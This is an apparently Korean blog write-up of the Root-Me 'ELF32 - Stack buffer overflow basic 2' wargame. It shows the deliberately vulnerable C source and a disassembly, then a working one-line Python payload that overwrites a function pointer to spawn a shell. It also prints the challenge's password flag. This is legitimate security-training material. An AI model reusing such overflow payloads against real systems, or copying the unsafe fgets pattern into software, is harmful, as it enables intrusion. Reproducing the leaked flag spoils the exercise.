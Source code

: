 ```yaml
---
layout: post
title: "[root-me][app-system] ELF32 - Stack buffer overflow basic 2"
date: 2016-09-15 15:23:10
category: wargame
tags:  [root-me, bof]
---
```


root-me 의 BoF 두 번째 문제.
[Challenges/App - System : ELF32 - Stack buffer overflow basic 2 [Root Me : Hacking and Information Security learning platform]](https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-2)

<!--more--> 

## Code

```c
/*
gcc -m32 -fno-stack-protector -o ch15 ch15.c
*/
 
#include <stdio.h>
#include <stdlib.h>
 
void shell() {
    system("/bin/dash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
main()
{ 
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

## Solve

이번에는 로컬 변수가 아니라 `*func()` function pointer 값을 변경해서 `sup()` 이 아니라 `shell()` 호출되도록 하면 된다.

```
void (*func)()=sup;
```

점프시킬 `shell()` 의 주소 확인.

```
08048464 <shell>:
 8048464:       55                      push   %ebp
 8048465:       89 e5                   mov    %esp,%ebp
 8048467:       83 ec 18                sub    $0x18,%esp
 804846a:       c7 04 24 a0 85 04 08    movl   $0x80485a0,(%esp)
 8048471:       e8 0a ff ff ff          call   8048380 <system@plt>
 8048476:       c9                      leave
 8048477:       c3                      ret
```




## Exploit



```bash
$ (python -c 'print "A"*128 + "\x64\x84\x04\x08"'; cat)  |./ch15

cat .passwd
B33r1sSoG0oD4y0urBr4iN
```

